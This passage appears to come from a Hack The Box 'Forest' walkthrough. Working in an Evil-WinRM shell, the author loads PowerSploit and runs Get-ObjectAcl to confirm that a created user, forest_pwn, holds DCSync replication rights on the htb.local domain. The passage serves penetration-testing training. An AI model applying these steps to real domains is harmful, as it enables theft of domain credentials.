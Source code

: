 In order to make sure that the DcSync rights has been assigned to our newly created user, I will going to put PowerSploit in the `echo $Env:PATH` PowerShell Module Path Directory. You can Download the PowerSploit from [Here](https://github.com/PowerShellMafia/PowerSploit/releases/tag/v3.0.0). Download the Source Code (zip). Extract it and Get it on the Target under C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\ Directory.

```
*Evil-WinRM* PS C:\tmp> echo $Env:PATH
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Users\svc-alfresco\AppData\Local\Microsoft\WindowsApps
```

Use the Following Command and Verify if the user `forest_pwn` has the ObjectType set to `DS-Replication-Get-Changes`.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules> Get-ObjectAcl -DistinguishedName "dc=htb,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}

InheritedObjectType   : All
ObjectDN              : DC=htb,DC=local
ObjectType            : DS-Replication-Get-Changes-All       # DS-Replication-Get-Changes-All Permission to forest_pwn User
IdentityReference     : HTB\forest_pwn
IsInherited           : False
ActiveDirectoryRights : ExtendedRight
PropagationFlags      : None
ObjectFlags           : ObjectAceTypePresent
InheritanceFlags      : None
InheritanceType       : None
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565

InheritedObjectType   : All
ObjectDN              : DC=htb,DC=local
ObjectType            : DS-Replication-Get-Changes          # DS-Replication-Get-Changes Permission to forest_pwn User
IdentityReference     : HTB\forest_pwn
IsInherited           : False
ActiveDirectoryRights : ExtendedRight
PropagationFlags      : None
ObjectFlags           : ObjectAceTypePresent
InheritanceFlags      : None
InheritanceType       : None
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565

InheritedObjectType   : All
ObjectDN              : DC=htb,DC=local
ObjectType            : DS-Replication-Get-Changes-In-Filtered-Set
IdentityReference     : HTB\forest_pwn
IsInherited           : False
ActiveDirectoryRights : ExtendedRight
PropagationFlags      : None
ObjectFlags           : ObjectAceTypePresent
InheritanceFlags      : None
InheritanceType       : None
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565
```
